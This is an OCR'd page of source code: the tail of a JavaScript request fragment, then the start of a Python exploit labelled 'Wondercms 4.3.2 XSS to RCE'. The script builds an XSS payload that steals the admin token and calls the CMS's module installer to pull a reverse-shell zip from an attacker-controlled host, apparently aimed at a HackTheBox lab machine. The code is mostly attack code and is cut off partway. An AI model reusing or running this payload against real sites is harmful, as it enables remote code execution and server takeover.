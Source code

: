```js

            "&lport=" +

            port

        );

        xhr5.send();

      }

    };

  }

};
```


```python
# Author: prodigiousMind

# Exploit: Wondercms 4.3.2 XSS to RCE

  
  

import sys

import requests

import os

import bs4

  

if (len(sys.argv)<4): print("usage: python3 exploit.py loginURL IP_Address Port\nexample: python3 exploit.py http://localhost/wondercms/loginURL 192.168.29.165 5252")

else:

  data = '''

var url = "'''+str(sys.argv[1])+'''";

if (url.endsWith("/")) {

 url = url.slice(0, -1);

}

var urlWithoutLog = url.split("/").slice(0, -1).join("/");

var urlWithoutLogBase = new URL(urlWithoutLog).pathname;

var token = document.querySelectorAll('[name="token"]')[0].value;

var urlRev = "http://sea.htb/wondercms/?installModule=http://{your ip}:8000/revshell-main.zip&directoryName=violet&type=themes&token=" + token;

var xhr3 = new XMLHttpRequest();

xhr3.withCredentials = true;
```